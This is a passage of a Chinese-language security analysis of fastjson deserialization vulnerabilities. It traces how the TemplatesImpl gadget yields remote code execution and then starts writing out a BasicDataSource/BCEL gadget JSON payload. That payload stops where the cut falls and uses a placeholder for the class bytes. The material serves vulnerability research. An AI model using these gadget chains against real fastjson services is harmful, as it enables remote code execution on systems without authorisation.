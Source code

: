 ```java
// name不能为空所以在payload中设置a.b
if (_name == null) return null;
// 关键
if (_class == null) defineTransletClasses();

// The translet needs to keep a reference to all its auxiliary
// class to prevent the GC from collecting them
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
```
再跟入`defineTransletClasses`，对父类进行了验证，这样解释了为什么Payload恶意类要继承自该类。如果验证没有问题，将在上方的`newInstance`方法中实例化该类，造成RCE
```java
private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";

if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
    _transletIndex = i;
}
```
为什么`_bytescode`要对字节码进行base64编码？反序列化的过程中会调用很多类，在经过该类`com.alibaba.fastjson.serializer.ObjectArrayCodec.deserialze`的时候，会对字段进行一次base64的解码
```java
......        
if (token == JSONToken.LITERAL_STRING || token == JSONToken.HEX) {
    byte[] bytes = lexer.bytesValue();
    ......
```
跟入`lexer.bytesValue()`方法，看到`decodeBase64`
```java
public byte[] bytesValue() {
    ......
    // base64解码
    return IOUtils.decodeBase64(buf, np + 1, sp);
}
```
总结：

- TemplatesImpl类是Java反序列化界比较常用的类，更容易理解和上手
- 需要开启`Feature.SupportNonPublicField`，实战中不适用
<a name="cFInD"></a>
### BasicDataSource
```java
String payload = "{\n" +
    "    \"name\":\n" +
    "    {\n" +
    "        \"@type\" : \"java.lang.Class\",\n" +
    "        \"val\"   : \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"\n" +
    "    },\n" +
    "    \"x\" : {\n" +
    "        \"name\": {\n" +
    "            \"@type\" : \"java.lang.Class\",\n" +
    "            \"val\"   : \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
    "        },\n" +
    "        \"y\": {\n" +
    "            \"@type\":\"com.alibaba.fastjson.JSONObject\",\n" +
    "            \"c\": {\n" +
    "                \"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
    "                \"driverClassLoader\": {\n" +
    "                    \"@type\" : \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
    "                },\n" +
    "                \"driverClassName\":\"!!!Payload!!!\",\n" +
    "\n" +
    "                     \"$ref\": \"$.x.y.c.connection\"\n" +
    "\n" +
```